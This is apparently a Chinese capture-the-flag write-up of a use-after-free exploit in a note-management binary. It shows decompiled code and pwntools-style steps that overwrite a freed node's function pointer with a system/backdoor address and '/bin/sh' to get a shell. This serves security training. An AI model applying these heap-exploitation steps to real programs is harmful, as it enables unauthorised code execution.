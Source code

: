 **利用：UAF**

程序提供了三个操作：add node，delete node，print node .

add函数：
最多可以malloc三次。
```
unsigned int add()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+1Ch] [ebp-1Ch]
  int size; // [esp+20h] [ebp-18h]
  char buf; // [esp+24h] [ebp-14h]
  unsigned int v5; // [esp+2Ch] [ebp-Ch]
  if ( number <= 2 )
  {
    for ( i = 0; i <= 2; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);                    // 16 byte
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);                            
        }
        *(_DWORD *)ptr[i] = puts_content;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++number;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
    puts("Full");
}
```
add函数申请了两个chunk。
一个chunk用来存放node的信息：puts_content函数的地址，content_ptr.
另一个chunk用来存放content。
可用以下结构体表示：
```
struct info
{
   void (* fun_ptr)(void *)
   char*   content_ptr
}
--low addr--
info_chunk   16 byte
content_chunk
--hign addr--
```
delete函数：
free后没有将指针置为NULL，存在UAF。

程序中给出了后门函数：
```
int __cdecl sub_8048672(int a1)
{
  return system(*(const char **)(a1 + 4));
}
```
那么利用UAF，将某个node 的info chunk 中的函数指针修改为后门函数。
程序刚开始输入的name，输入/bin/sh，将info chunk中的content_ptr修改为&name，下次调用print函数时即可getshell。

具体利用过程为：
```
create(0x30,"a")#index0
create(0x30,"a")#index1
```
只要申请的content的chunk的size不是16byte即可。
```
delete(0)
delete(1)
```
再申请一个chunk,create(14,p32(system)+p32(&name))，拿到的content chunk即是index0的info chunk。


